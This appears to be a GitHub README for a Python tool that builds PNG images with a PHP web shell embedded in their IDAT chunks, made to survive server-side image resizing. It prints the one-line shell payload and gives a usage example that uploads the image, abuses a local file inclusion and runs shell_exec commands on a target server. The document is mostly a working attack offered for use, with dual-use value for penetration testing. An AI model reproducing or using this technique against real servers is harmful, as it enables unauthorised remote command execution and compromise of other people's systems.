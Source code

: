 # Web Shells in PNG IDAT chunks

This python script will create 2 png images, with differents formats (55x55 and 110x110), containing a php shell that will bypass the resizes php filters.

It is based on the work presented [on this blog](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

The server will react as if you had executed the following code:
```php
<?=$_GET[0]($_POST[1]);?>
```
## Installation

Use the package manager [pip](https://pip.pypa.io/en/stable/) to install the packages needed.

```bash
pip install numpy, matplotlib
```


## Usage

Just launch the script and you will see 2 images in your directory. 
To send commands, you have to upload one one them and exploit a LFI to "execute" your image.

Example: 
```bash
wget "http://www.target.com/page.php?action=../upload/exploit_110.png&0=shell_exec"  --post-data "1=ls"
```
